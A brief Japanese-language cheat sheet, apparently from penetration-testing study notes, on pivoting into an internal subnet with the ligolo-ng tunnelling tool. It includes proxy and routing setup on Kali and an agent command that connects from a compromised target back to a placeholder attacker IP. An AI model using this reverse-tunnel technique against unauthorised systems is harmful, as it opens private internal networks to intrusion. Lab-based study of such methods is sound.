 # ligolo

[ligoloの使い方、参考ページ](https://systemweakness.com/everything-about-pivoting-oscp-active-directory-lateral-movement-6ed34faa08a2)

- agentとproxyというバイナリをそれぞれ/usr/bin/に置いたので、agentのバイナリをまずはターゲット上に置く必要がある。また、ターゲットOSによってバイナリを変える必要があるので、都度githubから引っ張ってくる必要がある。
  
[ソースはここから](https://github.com/nicocha30/ligolo-ng/releases)

## コマンド集

0. ダウンロードしてきたファイルを解凍する。
```
sudo tar -xzvf <target_file>
```

1. tunをセットする。
```
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

2. リバースプロキシを立ち上げる。ポーとは9001で待ち受けておく。
```
proxy -selfcert -laddr 0.0.0.0:9001
```

3. 利用できるインターフェースを一覧表示する。
```
session
ifconfig
```

4. 10.10.127.0/24サブネット宛ての全てのパケットを、ligolo tunインターフェースを介して送信するようにKali上で設定する。(これ自体はligoloのコマンドではなくKali上での設定)
```
sudo ip route add 10.10.127.0/24 dev ligolo
```
5. 上記までの手順を行った後に、セッションをスタートする。これでtargetサブネット上の内部ネットワークと、Kali上から直接やり取りができるようになる。
```
session
start
```

6. ローカルポートフォワーディングするための設定。実際にローカルポートフォワーディング設定してKaliから接続する際は、240.0.0.1:<targetのローカルポート>の形式で指定して通信する。
```
sudo ip route add 240.0.0.1/32 dev ligolo
```

### Agent側
1. 
```
./agent.exe -connect <attackerIP>:port -ignore-cert
```

